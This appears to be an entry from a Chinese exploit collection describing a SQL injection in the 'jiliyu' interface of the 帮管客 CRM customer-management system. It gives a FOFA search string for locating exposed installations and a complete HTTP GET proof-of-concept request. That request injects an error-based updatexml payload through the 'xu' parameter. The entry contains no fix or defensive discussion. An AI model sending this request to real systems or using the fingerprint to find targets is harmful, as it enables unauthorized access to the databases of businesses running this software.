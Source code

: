 ## 帮管客CRM-jiliyu接口存在SQL漏洞

帮管客CRM客户管理系统专注于为企业提供crm客户关系管理、crm管理系统、crm软件产品及企业销售管理流程解决方案服务,助力企业业绩增长。帮管客CRM jiliyu接口存在SQL漏洞

## fofa
```
"帮管客-CRM"
```

## poc
```
GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=激励语列表&xu=and%201=(updatexml(1,concat(0x7f,(select%20md5(1)),0x7f),1)) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](../../images/3c45eb31-aae1-4dc3-9f96-c1dfa449afbe.png)
